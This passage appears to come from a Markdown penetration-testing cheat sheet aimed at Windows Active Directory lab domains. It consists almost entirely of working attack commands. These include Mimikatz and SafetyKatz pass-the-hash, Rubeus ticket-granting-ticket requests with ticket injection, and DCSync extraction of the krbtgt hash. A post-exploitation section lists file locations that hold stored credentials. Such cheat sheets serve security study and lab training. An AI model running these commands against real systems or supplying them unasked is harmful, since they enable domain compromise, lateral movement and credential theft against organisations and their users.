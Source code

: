     Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'

    SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:aes /run:powershell.exe" "exit"

    # Generate TGT and inject in current session for double hopping (no admin rights for 1st command)
    Rubeus.exe asktgt /user:administrator /rc4:ntlmHash /ptt
    Rubeus.exe asktgt /user:administrator /aes256:<key> /opsec /createnetonly:c:\Windows\System32\cmd.exe /show /ptt

    # DCSync 
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
    SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
    ```

### Post Exploitation

    ```powershell
    ## Limit this command if there are too many files ;)
    tree /f /a C:\Users

    # Web.config
    C:\inetpub\www\*\web.config

    # Unattend files
    C:\Windows\Panther\Unattend.xml

    # RDP config files
    C:\ProgramData\Configs\

    # Powershell scripts/config files
    C:\Program Files\Windows PowerShell\

    # PuTTy config
    C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

    # FileZilla creds
    C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

    # Jenkins creds (also check out the Windows vault, see above)
    C:\Program Files\Jenkins\credentials.xml
